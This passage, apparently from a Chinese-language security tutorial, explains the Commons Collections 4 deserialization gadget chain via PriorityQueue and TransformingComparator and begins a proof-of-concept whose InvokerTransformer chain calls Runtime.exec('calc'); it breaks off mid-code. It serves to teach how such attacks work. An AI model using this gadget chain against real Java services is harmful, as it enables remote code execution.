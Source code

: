 ```java
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```

## TransformingComparator

### 基本功能

TransformingComparator是org.apache.commons.collections4.comparators包中的一个比较器的装饰器类，这个类重写了compare方法，而compare方法中调用了Transformer的transform方法，这就恰好可以让我们触发攻击链，下边来分析一下具体的代码

```java
package org.apache.commons.collections4.comparators;
......
public class TransformingComparator<I, O> implements Comparator<I>, Serializable {
    private static final long serialVersionUID = 3456940356043606220L;
    private final Comparator<O> decorated;
    private final Transformer<? super I, ? extends O> transformer;
	......
	// 重点看这个方法
    public int compare(I obj1, I obj2) {
        O value1 = this.transformer.transform(obj1);
        O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
    ......
}

```

如果我们能把PriorityQueue中的Comparator使用TransformingComparator来创建，那么在PriorityQueue初始化的时候就会调用到heapify方法，而heapify方法恰好可以触发TransformingComparator的compare方法从而执行transform方法，最终执行我们构造的代码

### 初版POC

这里可以先使用CC1的调用链来测试我们的想法是否正确，先写个初版demo吧

```java
public static void main2() throws Exception {
	// ==================调用链代码Start=======================
    Transformer[] transformer_exec = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chain = new ChainedTransformer(transformer_exec);
	// ===================调用链代码END===============
    // 初始化优先级队列
    PriorityQueue queue = new PriorityQueue();
    // 往队列中添加两个元素
    queue.add(1);
    queue.add(2);
    // 添加完之后通过反射获取到PriorityQueue中的comparator比较器字段
    Field comparator = queue.getClass().getDeclaredField("comparator");
```